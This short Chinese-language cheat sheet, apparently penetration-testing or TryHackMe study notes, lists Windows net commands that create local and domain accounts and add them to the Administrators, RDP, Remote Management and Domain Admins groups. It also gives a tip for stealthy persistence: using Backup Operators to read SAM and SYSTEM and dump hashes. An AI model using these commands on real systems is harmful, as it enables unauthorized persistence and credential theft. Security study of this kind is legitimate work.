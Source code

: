 # 添加本地用户
```
net user max p@ssWd123 /add
```

# 添加本地管理员
```
net localgroup administrators max /add
```

# 添加用户到本地RDP用户组
```
net localgroup "Remote Desktop Users" max /add
```

# 添加用户到本地远程用户组
```
net localgroup "Remote Management Users" max /add
```

# 添加域用户
```
net user /add max Max123456789!_ /domain
```

# 添加域用户到DA组
```
net group "Domain Admins" max /ADD /DOMAIN
```


# tryhackme

## Assign Group Memberships(分配组成员)

最简单的方法，直接分配到管理员组
```
net localgroup administrators thmuser0 /add
```

缺点就是容易被发现

比较隐蔽的方法，分配到```Backup Operators```组，从而可以读取写入任何文件，包括sam和system，这样就可以随时dump出哈希
```
 net localgroup "Backup Operators" thmuser1 /add
```
